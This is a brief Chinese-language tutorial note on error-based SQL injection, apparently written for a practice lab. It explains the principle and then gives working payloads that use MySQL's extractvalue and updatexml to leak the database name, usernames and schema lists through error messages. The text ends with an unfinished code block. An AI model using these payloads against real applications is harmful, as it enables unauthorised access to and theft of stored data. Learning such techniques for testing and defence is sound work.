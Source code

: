### 报错注入
#### 原理

由于后台没有对数据库的报错信息做过滤，会输入到前台显示，那么我们可以利用制造报错函数（常用的如**extractvalue、updatexml**等函数来显示出报错的信息输出）

**extractvalue函数**

```sql
语法：ExtractValue(target, xpath)

target：包含XML数据的列或XML文档 
xpath：XPath 表达式，指定要提取的数据路径。

eg:
#获取当前数据库
Dumb' and extractvalue(1,concat("~~",database(),"~~")) #

注意：当database()要换成sql查询语句时，使用括号
Dumb' and extractvalue(1,concat("~~",(select group_concat(username) 
from users),"~~")) #

#获取所有数据库 通过substr()函数控制输出
Dumb' and extractvalue(1,substr(concat("~~",(select 
group_concat(schema_name) 
from information_schema.schemata),"~~"),1,30)) #
```
**updatexml函数**

```sql
语法：updateXML(target, xpath, new_value)

target：要更新的 XML 数据列或 XML 文档。
xpath：指定要更新的 XML 元素的 XPath 表达式。
new_value：新的值，将替代匹配的 XML 元素的内容。

eg:
Dumb' and updateXML(1,concat("~~",database(),"~~"),3) #
```

```sql
select
```

